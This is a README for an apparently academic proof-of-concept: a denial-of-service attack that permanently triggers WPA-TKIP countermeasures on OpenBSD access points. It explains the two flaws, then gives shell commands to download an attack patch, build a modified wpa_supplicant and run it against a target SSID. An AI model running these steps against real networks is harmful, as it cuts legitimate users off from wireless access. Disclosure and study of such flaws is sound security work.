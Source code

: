 # OpenBSD Access Point Denial-of-Service

## Description

This attack exploits two vulnerabilities in the OpenBSD Access Point:

1. It does not terminate the TKIP countermeasures after one minute, meaning the AP will permanently be unusable after our attack.
2. It accepts TKIP MIC failure reports at any time during the handshake, even before the client is authenticated.
Moreover, the AP will use an
an all-zero KCK key to verify the authenticity of this frame.

Background:
- The WPA-TKIP countermeasures disallow any clients from connecting to the AP using WPA-TKIP for one minute.
This is to mitigate weaknesses in WPA-TKIP.
However, OpenBSD permanently blocks clients from connecting.
- This attack works as long as the target network supports WPA-TKIP.


## Proof-of-concept

We created a [PoC patch](attack_ap_dos.patch) that modifies Linux's `wpa_supplicant` to carry out the attck.
It transmits two MIC failure reports after receiving message 1 of the 4-way handshake from the AP,
and uses an all-zero KCK to authenticate the frame.
This triggers the permanent TKIP countermeasure period, meaning clients can no longer connect to the AP.

To execute the attack first patch `wpa_supplicant`:

		git clone git://w1.fi/srv/git/hostap.git -b hostap_2_6 openbsd-dos
		cd openbsd-dos
		wget https://raw.githubusercontent.com/vanhoefm/asiaccs2017-pocs/master/openbsd/attack_ap_dos.patch
		git apply attack_ap_dos.patch
		cd wpa_supplicant
		cp defconfig .config
		make -j 8

Then edit `network.conf` so it contains the target SSID and run:

		sudo ./wpa_supplicant -D nl80211 -i $INTERFACE -c network.conf

Where `$INTERFACE` is a wireless interface.

